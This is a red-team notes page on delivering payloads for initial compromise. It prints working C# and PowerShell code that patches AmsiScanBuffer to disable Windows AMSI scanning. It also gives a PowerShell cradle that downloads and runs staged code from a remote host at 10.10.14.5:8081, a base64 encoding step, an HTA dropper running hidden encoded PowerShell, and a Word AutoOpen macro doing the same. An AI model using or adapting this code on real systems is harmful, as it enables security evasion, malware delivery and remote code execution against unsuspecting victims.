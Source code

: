 ```yaml
---
date: 2019-08-02
title: Payload Delivery Techniques
description: Notes for delivering payloads
categories: InitialCompromise
---
```


## Payload Delivery Techniques
Using a simple keying HTA payload, such as those created by the Demiguise tool from NCC can be useful in landing the second stage of a payload.

demiguise.py -k "environmentKey" -c "powershell.exe -nop -w 1 -enc ENC_PAYLOAD" -o hta.hta -p Outlook.Application

## Bypassing AMSI and Delivering Payloads
AMSI can be used to detect malicious code within a number of scripting engines such as the Windows Script Host, PowerShell and Office VBA macros to name a few. A number of techniques have been leveraged to disable AMSI in order to load our tooling within the environment. One technique which at the time of writing works to bypass AMSI leverages egg hunters to dynamically load the AmsiScanBuffer function and modify the return value to zero returning a clean buffer. This technique was discovered by Context IS - https://www.contextis.com/en/blog/amsi-bypass.

The following code has been slightly modified to perform a check to verify whether AMSI has been disabled:

```
Ref = (
"System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
"System.Runtime.InteropServices, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"
)

$Source = @"
using System;
using System.Runtime.InteropServices;

namespace AMSI {
    // Context code - https://www.contextis.com/en/blog/amsi-bypass
    public class Bypass {

        [DllImport("kernel32")]
        private static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        private static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        private static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

        static void Main(string[] args) { }

        public static void Patch() {
            IntPtr hModule = LoadLibrary("amsi.dll");

            IntPtr dllCanUnloadNowAddress = GetProcAddress(hModule, "DllCanUnloadNow");

            byte[] egg = { };
            if (IntPtr.Size == 8) {
                egg = new byte[] {
                    0x4C, 0x8B, 0xDC,       // mov     r11,rsp
                    0x49, 0x89, 0x5B, 0x08, // mov     qword ptr [r11+8],rbx
                    0x49, 0x89, 0x6B, 0x10, // mov     qword ptr [r11+10h],rbp
                    0x49, 0x89, 0x73, 0x18, // mov     qword ptr [r11+18h],rsi
                    0x57,                   // push    rdi
                    0x41, 0x56,             // push    r14
                    0x41, 0x57,             // push    r15
                    0x48, 0x83, 0xEC, 0x70  // sub     rsp,70h
                };
            } else {
                egg = new byte[] {
                    0x8B, 0xFF,             // mov     edi,edi
                    0x55,                   // push    ebp
                    0x8B, 0xEC,             // mov     ebp,esp
                    0x83, 0xEC, 0x18,       // sub     esp,18h
                    0x53,                   // push    ebx
                    0x56                    // push    esi
                };
            }
            IntPtr address = FindAddress(dllCanUnloadNowAddress, egg);
	    // Logic for checking if bypass works
            if(address != IntPtr.Zero)
            {
                Console.WriteLine("0");
            } else { Console.WriteLine("-1"); }

            // Change the memory protection of the memory region
            // PAGE_READWRITE = 0x04
            uint oldProtectionBuffer = 0;
            VirtualProtect(address, (UIntPtr)2, 4, out oldProtectionBuffer);

            // Patch the function
            byte[] patch = { 0x31, 0xC0, 0xC3};
            Marshal.Copy(patch, 0, address, 3);

            // Reinitialise the memory protection of the memory region
            uint a = 0;
            VirtualProtect(address, (UIntPtr)2, oldProtectionBuffer, out a);
        }

        private static IntPtr FindAddress(IntPtr address, byte[] egg) {
            while (true) {
                int count = 0;

                while (true) {
                    address = IntPtr.Add(address, 1);
                    if (Marshal.ReadByte(address) == (byte)egg.GetValue(count)) {
                        count++;
                        if (count == egg.Length)
                            return IntPtr.Subtract(address, egg.Length - 1);
                    } else {
                        break;
                    }
                }
            }
        }
    }
}
"@

Add-Type -ReferencedAssemblies $Ref -TypeDefinition $Source -Language CSharp
```

The checks for AMSI and the delivery methods were taken from RastaMouse's AMSI blog posts:

https://rastamouse.me/2018/10/amsiscanbuffer-bypass---part-2/

The overall idea is to deliver a HTA to the victim in order to pull down the initial AMSI bypass and verify that AMSI is disabled in order to load the second larger implantm, for instance a PoshC2 implant.

The following cradle can be used to achieve the above process:

```
$s = 'iex ((new-object net.webclient).downloadstring("http://10.10.14.5:8081/p")); If([AMSI.Bypass]::Patch() -ne 0) { iex ((new-object net.webclient).downloadstring("http://10.10.14.5:8081/stage")) }'
```

To deliver this cradle, it should be encoded to avoid any issues which could occur if the input is processed.

```
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($s))
```

The encoded cradle can then be placed in a HTA file, such as that below which has been taken again from RastaMouse's AMSI bypass blog posts:

```
<html>
<script language="VBScript">
    Function var_func()
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run "powershell.exe -nop -w 1 -enc ENC_PAYLOAD", 0, true
    End Function

    var_func
    self.close
</script>
</html>
```

These methods would only be ideal if the environment does not perform adequate logging against PowerShell and the target runs PowerShell normally within the environment, otherwise these are clear indicators of compromise.

AMSI bypasses can also be implemented in a number of other scripting techniques, the following provides details on implementing these bypasses avoiding PowerShell.

To achieve the same outcome, it is possible to add the following VBA code to a Macro which when executed through Office, such as Word will call out to the web server and pull down the AMSI bypass code and then execute the next stage:

```
Sub AutoOpen()

Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")

obj.Document.Application.ShellExecute "powershell", "-nop -w 1 -enc PAYLOAD_HERE", "C:\\Windows\\System32\\WindowsPowerShell\\v1.0", Null, 0

End Sub
```